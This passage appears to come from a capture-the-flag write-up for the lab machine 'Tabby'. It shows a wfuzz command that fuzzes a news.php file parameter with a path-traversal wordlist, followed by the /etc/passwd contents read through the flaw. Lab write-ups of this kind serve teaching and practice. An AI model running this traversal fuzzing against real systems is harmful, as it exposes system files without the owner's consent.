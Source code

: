 ![screenshot](/assets/images/tabby9.png)
# Fuzzing for LFI
```sh
wfuzz -c -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt --hw 0 http://megahosting.htb/news.php?file=../../../../../../../FUZZ
```

![screenshot](/assets/images/tabby11.png)

/etc/passwd
```sh
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
```